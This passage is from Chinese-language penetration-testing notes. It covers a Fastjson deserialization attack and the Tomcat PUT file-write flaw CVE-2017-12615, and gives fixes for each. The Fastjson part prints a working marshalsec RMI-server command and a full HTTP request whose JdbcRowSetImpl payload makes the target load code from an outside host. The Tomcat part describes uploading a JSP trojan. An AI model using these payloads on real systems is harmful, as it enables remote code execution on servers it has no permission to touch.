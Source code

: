     `mvn clean package -DskipTests`

    再用marshalsec文件开启一个rmi服务：

    ```

    java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.197.132:6969/#Exploit" 6799
    ```

    Burp修改包并写入POC：

    ```s

    POST / HTTP/1.1
    Host: localhost:8090
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/json
    Content-Length: 161

    {
    "b":{
            "@type":"com.sun.rowset.JdbcRowSetImpl",
            "dataSourceName":"rmi://172.16.65.10:9999/test",
            "autoCommit":true
        }
    }
    ```

* 修复建议

    补丁

    正则键值对


# Tomcat

* 介绍

    Tomcat是我们在工作中所使用的一款开源轻量级的Web应用程序服务器。通常情况下在中小型系统或者并发量较小的场合下使用，常用来与JSP和PHP脚本结合使来解析脚本语言部署搭建网站等系统。

## Tomcat PUT方法任意写文件漏洞(CVE-2017-12615)

* 原理

    ApacheTomcat服务组件中开启了http的Put方法所造成的攻击者可以利用该方法任意上传jsp木马所造成的远程代码执行漏洞。该漏洞所影响的版本从ApacheTomcat7.0.0-7.0.79

    漏洞本质Tomcat配置了可写（readonly=false），导致我们可以往服务器写文件

    虽然Tomcat对文件后缀有一定检测（不能直接写jsp），但我们使用一些文件系统的特性（如Linux下可用`/`）来绕过了限制。

* 利用

    抓包，改方式为PUT，后面直接跟上传路径，请求体写木马，上传就可以



* 修复

    1、配置readonly和VirtualDirContext值为True或注释参数，禁止使用PUT方法并重启tomcat

    注意：如果禁用PUT方法，对于依赖PUT方法的应用，可能导致业务失效。 

    2、根据官方补丁升级最新版本

